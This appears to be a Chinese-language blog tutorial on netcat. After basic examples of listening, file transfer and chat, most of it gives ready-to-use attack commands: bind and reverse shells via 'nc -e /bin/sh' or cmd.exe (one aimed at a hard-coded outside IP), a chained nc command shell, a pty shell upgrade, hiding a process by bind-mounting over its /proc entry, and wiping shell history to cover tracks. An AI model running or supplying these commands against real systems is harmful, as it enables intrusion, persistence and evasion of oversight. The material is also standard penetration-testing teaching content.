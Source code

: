 ```yaml
---
title: netcat工具的使用
date: 2023-09-01 15:21:31
tags:
- 工具使用
categories:
- 工具使用
---
```


# nc开启监听端口

```
nc -lvvp 8083 
```

- `-l`：这个选项告诉Netcat在监听模式下运行，即等待来自客户端的连接请求。

- `-v`：这个选项启用详细的输出，以便在命令执行时显示更多信息。

- `-p `：指定要监听的端口号。



# nc传输数据

```
接收方：nc -l -p 8888 > 1.txt

发送方：nc 192.168.2.28 8888 < 1.txt
```

- `-l`：监听模式，告诉 `nc` 监听传入的连接。
- `-p `：指定要监听的端口号。



# nc传输文件

```
接收方：nc -l -v -p 9999 | tar -xzvf - 

发送方：tar -czvf - test666 | nc -v 192.168.1.116 9999
```

- `tar -xzvf -`：这部分命令使用 `tar` 实用程序来解压缩（`-x`）和解压缩（`-z`）tar归档文件。以下是每个选项的含义：

  - `-x`：解压缩模式。
  - `-z`：使用gzip压缩算法解压缩归档文件。
  - `-v`：详细模式，提供更详细的输出。
  - `-f -`：指定输入tar归档文件将从标准输入（`-`）读取。

- `tar -czvf - test666`：这部分命令使用 `tar` 实用程序来创建一个名为 `test666.tar.gz` 的 tar 归档文件，并将其输出到标准输出（`-`）。以下是每个选项的含义：

  - `-c`：创建新的归档文件。
  - `-z`：使用 gzip 压缩算法来压缩文件。
  - `-v`：详细模式，提供更详细的输出。
  - `-f -`：指定输出文件名为标准输出（`-`）。

  

# nc简易实时聊天

```
接收方：nc -l -p 7777

发送方：nc -nv 192.168.1.211 7777
```

`-nv`：这些是nc命令的选项（参数）：

- `-n`：表示不进行DNS解析，直接使用IP地址进行连接，这可以提高连接速度。
- `-v`：表示启用详细模式，会显示更多的信息，包括连接的状态和交互信息。



# nc正向反弹shell（内网之间）

```
服务端：
nc -lvvp 444 -e /bin/sh							 //Linux  nc命令
nc.exe -lvvp 444 -e c:\windows\system32\cmd.exe       //windows nc命令

攻击端：
nc 192.168.x.x 444
```



# nc反向反弹shell（外网连接内网）

```
服务端
nc 139.159.221.73 999 -e /bin/sh
nc.exe 139.159.221.73 999 -e c:\windows\system32\cmd.exe

攻击端：
nc -lvvp 999
```

内>外：正

内>内：皆可（推荐反）

外>外：皆可（推荐反）

外>内：反



# nc串联

```
服务端
nc 10.0.0.14 5555 | /bin/sh | nc 10.0.0.14 6666  	//nc串联

攻击端
nc -lnvp 5555										//5555端输入命令
nc -lnvp 6666										//6666端输出命令
```





# 提升为交互式

```
python -c 'import pty;pty.spawn("/bin/bash")'
```



# 让进程删不掉（linux）



弹shell成功后

```
netstat -anodp|grep 9595
```

查看进程PID

```
mkdir null										//创建进程
mount --bind /proc/2705 null					//绑定进程在null目录
```

![image-20230909203315366](../资源文件/图片/image-20230909203315366.png)

```
umount null										//解除绑定在目录的进程
```

![image-20230909203639760](../资源文件/图片/image-20230909203639760.png)



# 删除所有操作历史记录



```
for i in $(seq 1 100);do history -d 1;done
```

>  删除所有历史记录（100条）

![image-20230909204946890](../资源文件/图片/image-20230909204946890.png)

```
set +o history										//设置历史记录不在记录
set -o history										//解除历史记录不在记录
```

